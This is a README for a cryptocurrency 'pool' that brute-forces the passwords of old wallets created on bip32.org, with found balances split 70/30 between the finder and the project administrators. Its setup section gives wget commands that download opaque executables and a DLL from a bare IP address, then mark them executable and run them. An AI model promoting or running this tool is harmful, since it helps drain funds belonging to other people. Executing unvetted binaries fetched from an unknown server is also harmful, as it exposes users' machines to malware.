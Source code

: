 # bip39scan v2.0.1 POOL
**Collective search of old coins from the site [bip32.org](http://bip32.org)**

➡️ Online Statistic https://bip39scan.com<br>
➡️ Telegram group https://t.me/bip39scan

**Pool conditions:**<br>
💰 70% of the balance of the find to the one who found the password.<br>
💵 30% of the balance of the find to the project administration

## Connect to the pool
**Linux:**<br>
wget http://95.215.108.160/up/xx<br>
wget http://95.215.108.160/up/precomp.bin<br>
wget http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```chmod +x xx```<br>
```./xx -u YourNickName --bloom 2048M```<br>

**Windows:**<br>
http://95.215.108.160/up/xx.exe<br>
http://95.215.108.160/up/precomp.bin<br>
http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```xx.exe -u Nick_Name --bloom 2048M```<br>

## Question and Answer

All clients perform their part (chunk) of the overall task.<br>
Only CUDA cards support GTX, RTX, CMP<br>
Brute speed:<br>
RTX 4090 = 520k/s<br>
RTX 5090 = 800k/s<br>


The client automatically downloads the address database. <br>
If the database on the server has changed, it automatically updates it. <br>
After downloading, the client checks the checksum of the database, which excludes incompletely downloaded addresses.

After launching, the client displays only the speed.<br>
If the client finds an address, the window displays the found address.<br>
<img width="977" height="510" alt="Image" src="https://github.com/user-attachments/assets/29720e79-e401-4d2c-82e1-f134dc52858d" />



